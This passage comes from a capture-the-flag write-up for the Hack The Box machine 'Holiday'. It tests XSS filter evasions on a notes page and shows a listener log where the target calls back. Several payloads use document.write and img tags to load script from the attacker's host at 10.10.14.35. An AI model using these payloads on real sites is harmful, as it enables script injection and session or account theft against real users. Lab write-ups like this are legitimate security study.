 Wait a minute and refresh the page to see our note:

![notes_output](/assets/images/2020-06-19-16-22-23.png)

There's some sort of XSS protection on the website which has broken the input. Try a few things out from [this big list](https://gist.github.com/JohannesHoppe/5612274) of XSS evasions.

Results not good for any of them:

```text
&lt;img src="blah/&gt;&lt;script&gt;javascript.alert(0)&lt;/script&gt;

"""document.write('&lt;script src="http://10.10.14.35/test.js"&gt;&lt;/script&gt;');"""

"""<img src=blah />&lt;script src="http://10.10.14.35/test.js"&gt;&lt;/script&gt;"""

&lt;img src="blah/''&lt;script&gt;javascript:alert(1)&lt;/script&gt;"'')

"""&lt;img src="blah/''&lt;script&gt;javascript:alert(1)&lt;/script&gt;"'')"""
```

Looking at the list again, we see it's common to use the img tag, so try that:

![notes_img_src](/assets/images/2020-06-19-16-23-16.png)

After a minute we get a hit on our waiting web server:

```text
root@kali:~/htb/holiday# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.25 - - [18/Jun/2020 21:12:07] "GET / HTTP/1.1" 200 -
```

Checking the notes page:

![notes_good_output](/assets/images/2020-06-19-16-23-49.png)

That works, looking at [this cheat sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) we should try using charcode. Our simple payload will be:

```text
document.write('<script src="http://10.10.14.35/inject.js"></script>');
```
